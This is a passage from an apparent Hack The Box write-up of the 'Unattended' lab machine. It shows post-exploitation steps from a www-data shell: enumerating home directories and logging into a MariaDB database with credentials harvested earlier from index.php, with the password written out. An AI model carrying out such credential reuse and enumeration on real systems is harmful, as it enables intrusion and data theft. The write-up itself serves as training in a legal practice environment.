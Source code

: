 ![](/images/hackthebox/unattended/17.png)
<br> Note : I stopped the python server before starting the listener because both of them use port 80.
<br>
<hr>
## Shell as guly, User Flag
<br> There is only one user on the box : `guly`, and we can't access the home directory :
```
www-data@unattended:/tmp$ ls -la /home     
ls -la /home
total 12
drwxr-xr-x  3 root root 4096 Dec 20  2018 .
drwxr-xr-x 22 root root 4096 Dec 21  2018 ..
drwxr-x---  2 guly guly 4096 Apr  2 17:11 guly
www-data@unattended:/tmp$ cd /home/guly
cd /home/guly
bash: cd: /home/guly: Permission denied
www-data@unattended:/tmp$ 
```
<br> Earlier we got the database credentials from `index.php` and we couldn't dump the whole database because of the slow process, let's check the database :
```
www-data@unattended:/tmp$ mysql -h localhost -u nestedflanders -p
mysql -h localhost -u nestedflanders -p
Enter password: 1036913cf7d38d4ea4f79b050f171e9fbf3f5e

Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MariaDB connection id is 14511
Server version: 10.1.37-MariaDB-0+deb9u1 Debian 9.6

Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

MariaDB [(none)]> 
```

```
MariaDB [(none)]> use neddy;
use neddy;
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
MariaDB [neddy]> show tables;
show tables;
+-----------------+
| Tables_in_neddy |
+-----------------+
| config          |
| customers       |
| employees       |
| filepath        |
| idname          |
| offices         |
| orderdetails    |
```
